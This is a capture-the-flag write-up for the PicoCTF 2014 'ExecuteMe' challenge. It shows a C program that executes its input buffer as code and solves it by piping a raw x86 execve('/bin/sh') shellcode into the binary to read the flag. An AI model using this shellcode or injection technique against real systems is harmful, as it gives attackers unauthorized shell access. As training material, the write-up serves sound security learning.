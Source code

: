 # Pico-CTF 2014: ExecuteMe

**Category:** Binary Exploitation
**Points:** 80
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)
> This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found [here](execute.c).

```c
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```

## Write-up
[//]: # (> Your write up goes here.)
> We can see from the code that char array buf is typecasted as function pointer `function_ptr` then we can write shell code to buf variable and when function call is made shell code written in array buff executes. To get a flag we need to execute /bin/sh from binary. We could have executed by just directly writing `/bin/sh` to buf if it would have been directly passed to `system(buf)` call, but this is not the situation we need to provide assembly shell code which does this thing. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use this [shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run execve("/bin/sh").

> Running execute binary as : 

```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
ls
Makefile  execute  execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
^C
```

> Flag is : **shellcode_is_kinda_cool**

## Other write-ups and resources

* None
